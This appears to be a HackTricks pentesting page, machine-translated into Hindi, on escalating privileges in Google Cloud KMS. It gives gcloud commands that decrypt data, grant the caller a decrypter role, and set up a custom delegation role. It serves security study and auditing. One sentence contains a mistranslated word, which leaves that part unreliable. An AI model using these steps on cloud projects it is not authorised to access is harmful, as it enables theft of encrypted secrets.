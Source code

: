 # GCP - KMS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## KMS

KMS के बारे में जानकारी:

{{#ref}}
../gcp-services/gcp-kms-enum.md
{{#endref}}

ध्यान दें कि KMS में **अनुमतियाँ** केवल **संस्थाओं**, फ़ोल्डरों और परियोजनाओं से **विरासत में** नहीं मिलती हैं बल्कि **कीरिंग्स** से भी मिलती हैं।

### `cloudkms.cryptoKeyVersions.useToDecrypt`

आप इस अनुमति का उपयोग **कुंजी के साथ जानकारी को डिक्रिप्ट करने** के लिए कर सकते हैं जिसके ऊपर आपके पास यह अनुमति है।
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

इस अनुमति के साथ एक हमलावर **अपने लिए अनुमति दे सकता है** कि वह कुंजी का उपयोग करके जानकारी को डिक्रिप्ट करे।
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

यहाँ इस प्रतिनिधित्व के काम करने का एक वैचारिक विश्लेषण है:

1. **Service Account A** को KMS में एक विशिष्ट कुंजी का उपयोग करके डिक्रिप्ट करने का सीधा अधिकार है।
2. **Service Account B** को `useToDecryptViaDelegation` अनुमति दी गई है। यह इसे Service Account A की ओर से डेटा डिक्रिप्ट करने के लिए KMS से अनुरोध करने की अनुमति देता है।

इस **अनुमति का उपयोग उस तरीके में निहित है जिसमें KMS सेवा अनुमति की जांच करती है** जब एक डिक्रिप्शन अनुरोध किया जाता है।

जब आप Google Cloud KMS API का उपयोग करके एक मानक डिक्रिप्शन अनुरोध करते हैं (Python या किसी अन्य भाषा में), तो सेवा **जांचती है कि क्या अनुरोध करने वाले सेवा खाते के पास आवश्यक अनुमतियाँ हैं**। यदि अनुरोध एक सेवा खाते द्वारा किया जाता है जिसके पास **`useToDecryptViaDelegation`** अनुमति है, तो KMS यह सत्यापित करता है कि क्या यह **खुशखबरी उस इकाई की ओर से डिक्रिप्शन का अनुरोध करने के लिए अनुमति प्राप्त है जो कुंजी का मालिक है**।

#### प्रतिनिधित्व के लिए सेटिंग अप

1. **कस्टम भूमिका परिभाषित करें**: एक YAML फ़ाइल बनाएं (जैसे, `custom_role.yaml`) जो कस्टम भूमिका को परिभाषित करती है। इस फ़ाइल में `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` अनुमति शामिल होनी चाहिए। यहाँ इस फ़ाइल का एक उदाहरण है:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **gcloud CLI का उपयोग करके कस्टम भूमिका बनाएं**: अपने Google Cloud प्रोजेक्ट में कस्टम भूमिका बनाने के लिए निम्नलिखित कमांड का उपयोग करें:
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
`[YOUR_PROJECT_ID]` को अपने Google Cloud प्रोजेक्ट ID से बदलें।

3. **एक सेवा खाते को कस्टम भूमिका दें**: इस अनुमति का उपयोग करने वाले सेवा खाते को अपनी कस्टम भूमिका सौंपें। निम्नलिखित कमांड का उपयोग करें:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]` और `[SERVICE_ACCOUNT_EMAIL]` को क्रमशः अपने प्रोजेक्ट आईडी और सेवा खाते के ईमेल से बदलें। 

{{#include ../../../banners/hacktricks-training.md}}

